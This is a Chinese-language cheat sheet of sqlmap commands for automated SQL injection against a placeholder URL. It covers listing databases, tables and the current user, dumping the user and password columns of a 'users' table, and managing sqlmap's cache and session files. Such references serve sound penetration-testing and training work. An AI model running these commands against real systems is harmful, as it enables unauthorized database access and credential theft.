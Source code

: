 ```shell
python sqlmap -u 'http://xx/?id=1'
```

### 查看所有数据库

```shell
python sqlmap -u 'http://xx/?id=1' --dbs
```

### 查看当前使用的数据库

```shell
python sqlmap -u 'http://xx/?id=1' --current-db
```

### 查看数据表

```shell
python sqlmap -u 'http://xx/?id=1' -D 'security' --tables
```

### 查看数据

```shell
python sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' -C 'user,passwd' --dump
```

### 获取当前连接数据库的用户名    

```shell
python sqlmap.py -u  'http://xx/?id=1' --current-user
```

### sqlmap历史记录

```shell
windows：C:\Userstest\AppData\Local\sqlmap
Linux：/home/test/.sqlmap or /root/.sqlmap
```

### 清除缓存进行注入 (删除sqlmap的output文件夹也可清楚缓存)

```shell
python sqlmap.py -u  'http://xx/?id=1' --purge
```

### 刷新目标的存储在sqlmap的session文件-清缓存

```shell
python sqlmap.py -u  'http://xx/?id=1' --flush-session
```

### 自动填充选择Y，跳过询问

```shell
python sqlmap.py -u [url] --batch
```
